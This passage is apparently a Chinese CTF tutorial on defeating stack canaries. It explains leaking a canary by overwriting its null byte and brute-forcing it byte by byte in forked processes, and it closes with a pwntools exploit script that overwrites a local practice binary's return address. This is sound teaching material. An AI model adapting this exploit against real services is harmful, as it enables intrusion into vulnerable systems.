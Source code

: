 ```python
io.interactive()

```

**重点关注Payload1的构造和，Canary减去0xa的原因**

#### Canary 覆盖\x00

- Canary设计以字节\x00结尾，本意是保证Canary可以截断字符串。泄露栈中的Canary的思路是覆盖Canary的低字节，来打印出剩余的Canary部分。需要合适的输出函数，并且需要先泄露Canary，之后再次溢出控制执行流程。
- 需要注意：Canary一般最低位是\x00，也就是结尾处，64位程序的canary的大小是8个字节，32位程序的canary的大小是4个字节。
- canary的位置不一定与ebp存储的位置相邻，具体得看程序的汇编操作，不同编译器在进行编译时canary位置可能出现偏差，有可能ebp与canary之间有字节被随机填充

#### 减去0xa的原因

- canary的最低字节为0x00，学过c语言的应该都知道0x00意味着一个字符串的结束。
- printf函数或者put函数无法输出结束字符之后的字符
- 故上述代码中压入了100个A和回车，回车将0x00覆盖，回车的ascii码为10，10的十六进制就是0xa
- 0x00被0xa覆盖掉之后，剩下的高字节部分就可以泄露出来了





#### One-by-One 爆破Canary

> 对于 Canary，虽然每次进程重启后的 Canary 不同 (相比 GS，GS 重启后是相同的)，但是同一个进程中的不同线程的 Canary 是相同的， 并且 通过 fork 函数创建的子进程的 Canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存。我们可以利用这样的特点，彻底逐个字节将 Canary 爆破出来。



#### EXP

```python
from pwn import *
  
context(arch="i386",os="linux",log_level="debug")
io = process("./bin1")
e = ELF("./bin1")

Canary ='\x00'  #Canary

io.recvuntil("welcome\n")
for x in range(3):
    for y in range(256):
        io.send('A'*100 + Canary + chr(y))
        str = io.recvuntil("welcome\n")
        if b"recv" in str:
            Canary +=chr(y)
            break

print(Canary)
log.info(type(Canary))
getflag_addr = e.sym["getflag"]
payload = b'A'*100 + Canary.encode('utf-8') + 12*b'A'+p32(getflag_addr)
# payload = flat('A'*100, Canary, 12*'A',getflag_addr)  #flat()函数自动转换
io.sendline(payload)
io.interactive()

```
